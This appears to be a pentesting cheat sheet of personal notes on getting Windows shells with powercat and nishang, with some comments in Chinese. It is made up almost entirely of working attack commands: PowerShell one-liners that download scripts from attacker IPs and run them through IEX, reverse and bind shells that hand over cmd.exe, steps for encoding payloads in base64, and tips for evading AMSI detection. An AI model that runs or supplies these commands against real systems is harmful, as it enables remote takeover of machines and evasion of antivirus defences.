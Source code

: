 **reverse shell**

```bash
sudo nc -nvlp 443

powercat -c [kaliip] -p 443 -e cmd.exe

//one-liner, 下载powercat后运行
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.196/powercat.ps1');powercat -c 192.168.119.196 -p 4444 -e cmd
powershell.exe -nop -ep bypass -c  "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.196/powercat.ps1');powercat -c 192.168.119.196 -p 4444 -e cmd"
```

**bind shell**

```bash
powercat -l -p 443 -e cmd.exe

nc [winip] 443
```

**standalone payload**

```bash
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
PS C:\Users\offsec> ./reverseshell.ps1

powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
powershell.exe -E //执行
```

### nishang
+ [git](https://github.com/samratashok/nishang)
+ [常用 Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
+ base64 encoded and get shell
+ change the function name and delete the help msg to bypass amsi
  
```powershell
# common usage
## append to the end of the file
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.196 -Port 1338

## Start serving the script in a web server and execute in the victim
## doesn't detect it ad malicious code(yet, 3/04/2019)
powershell -exec bypass -c "iwr('http://10.11.0.134/shell2.ps1')|iex"

## download and execute
powershell.exe -c IEX(New-Object Net.Webclient).downloadstring('http://10.10.14.62/rev.ps1')

# encoded and get shell
## iconv utf-16LE and base64, deal with the quote things.
echo "IEX(new-object net.webclient).downloadstring('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

## test and wrong encoded powershell command.
powershell -enc <base64 encoded things>

# change the function name and delete the help msg to bypass amsi
```

